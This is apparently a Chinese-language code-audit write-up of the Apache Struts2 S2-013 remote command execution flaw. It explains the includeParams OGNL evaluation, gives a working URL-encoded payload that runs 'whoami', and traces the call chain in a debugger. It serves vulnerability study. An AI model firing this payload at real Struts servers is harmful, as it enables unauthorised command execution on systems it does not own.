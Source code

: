# S2-013 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.1`

Problem: `Struts2` 标签中 ` <s:a> ` 和 ` <s:url> ` 都包含一个 `includeParams` 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

` <s:a> `用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 9.0.34

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![20200718101337](img\20200718101337.png)

## Payload

`HelloWorld.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

## Debug

全局搜索`includeParams`关键字，发现有个`getIncludeParams`方法，先下个断点：

`s2-013/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/components/ComponentUrlProvider.class:73`

![getIncludeParams](img\getIncludeParams.png)

然后进入到`beforeRenderUrl`函数中。可以看到这个函数将我们提交的恶意参数include进来：

![includeParams](img\includeParams.png)

接下来找哪里将表达式进行了解析。

继续跟进，进入`end`函数：

![end](img\end.png)

跟进`renderUrl` -> `determineActionURL` -> `buildURL` -> `buildParametersString` -> `translateAndEncode`:

![1595138319483](E:\Project\CodeAuditLearning\struts2-vuln-demo\s2-013\img\renderUrl.png)

![1595136376298](img\buildUrl.png)

![1595136451346](img\buildParametersString.png)

![1595136519253](img\translateAndEncode.png)

一直跟进translate函数，直到TextParseUtil类的translateVariables方法中，通过stack.findValue方法触发OGNL表达式执行。

`s2-013/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/util/TextParseUtil.class:90`

![1595136693874](img\stackFindValue.png)



## Reference

- [S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)
- [S2-013/S2-014 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md )

